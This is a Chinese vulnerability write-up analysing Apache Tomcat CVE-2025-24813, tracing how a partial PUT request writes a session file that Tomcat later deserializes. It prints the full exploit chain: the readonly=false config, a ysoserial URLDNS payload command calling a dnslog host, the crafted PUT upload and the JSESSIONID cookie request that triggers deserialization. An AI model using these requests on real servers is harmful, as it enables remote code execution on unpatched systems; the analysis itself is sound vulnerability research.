





# Tomcat 漏洞分析(CVE-2025-24813)-先知社区

> **来源**: https://xz.aliyun.com/news/17484  
> **文章ID**: 17484

---

# 漏洞通告



本次分析参考了 jweny师傅分享的《[全网首发！CVE-2025-24813 Tomcat 最新 RCE 分析复现](https://forum.butian.net/article/674)》

根据文章获取到：

* 反序列化漏洞
* 漏洞触发的方式
* 序列化文件存放位置

# 漏洞分析

## 环境

1. 支持了 PUT 请求，能够将恶意的序列化数据写入到会话文件中，该功能默认关闭的，修改readonly值。

```
<servlet>  
    <servlet-name>default</servlet-name>  
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>  
    <init-param>  
        <param-name>debug</param-name>  
        <param-value>0</param-value>  
    </init-param>  
    <init-param>  
        <param-name>readonly</param-name>  
        <param-value>false</param-value>  
    </init-param>  
    <load-on-startup>1</load-on-startup>  
</servlet>
```

## 分析

### 序列化文件

分析put请求

写入文件的代码是

```
// 设置文件路径，文件路径就是url
String path = getRelativePath(req);

InputStream resourceInputStream = null;

// 创建文件
File contentFile = executePartialPut(req, range, path);
resourceInputStream = new FileInputStream(contentFile)
```



生成payload

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar  URLDNS http://op9gyt.dnslog.cn >2.bin
```

直接构造http请求

```
PUT /jc/session HTTP/1.1 
Host: 127.0.0.1:8080
Content-Length: 5000
Content-Range: bytes 0-5000/5200

{{file(C:\Users\jc\Downloads\2.bin)}}
```

文件创建成功`work\Catalina\localhost\ROOT`



### 反序列化

漏洞触发点是`session.readObjectData(ois);`



ois定义的内部函数传递进来的

```
ObjectInputStream ois = getObjectInputStream(fis)) {
    session.readObjectData(ois);
}
```

fis是`FileInputStream(file.getAbsolutePath())`，其中`file.getAbsolutePath()`是读取的文件路径

```
FileInputStream fis = new FileInputStream(file.getAbsolutePath())
```

继续分析file的来源，通过id控制的

```
File file = file(id);
```

file函数内部对路径进行了处理，将`id + FILE_EXT(.session)`

```
private File file(String id) throws IOException {
    File storageDir = directory();
    if (storageDir == null) {
        return null;
    }

    String filename = id + FILE_EXT;
    File file = new File(storageDir, filename);
    File canonicalFile = file.getCanonicalFile();

    // Check the file is within the storage directory
    if (!canonicalFile.toPath().startsWith(storageDir.getCanonicalFile().toPath())) {
        log.warn(sm.getString("fileStore.invalid", file.getPath(), id));
        return null;
    }

    return canonicalFile;
}
```

追踪id的来源，`doGetSession:2979, Request (org.apache.catalina.connector)`传递进来的

```
session = manager.findSession(requestedSessionId);
```

而`requestedSessionId`是类属性，关注`set`方法

`set`方法被`parseSessionCookiesId:1067, CoyoteAdapter (org.apache.catalina.connector)`调用

```
// 遍历cookie
for (int i = 0; i < count; i++) {
    ServerCookie scookie = serverCookies.getCookie(i);
    // cookie的key等于sessionCookieName的值才可以进入判断
    // sessionCookieName = JSESSIONID
    if (scookie.getName().equals(sessionCookieName)) {
        // 覆盖url中的任何请求
        if (!request.isRequestedSessionIdFromCookie()) {
            convertMB(scookie.getValue());
            request.setRequestedSessionId
                (scookie.getValue().toString());
```

构造http请求

```
GET / HTTP/1.1
Host: 127.0.0.1:8080
Cookie: JSESSIONID=.jc
```

序列化成功


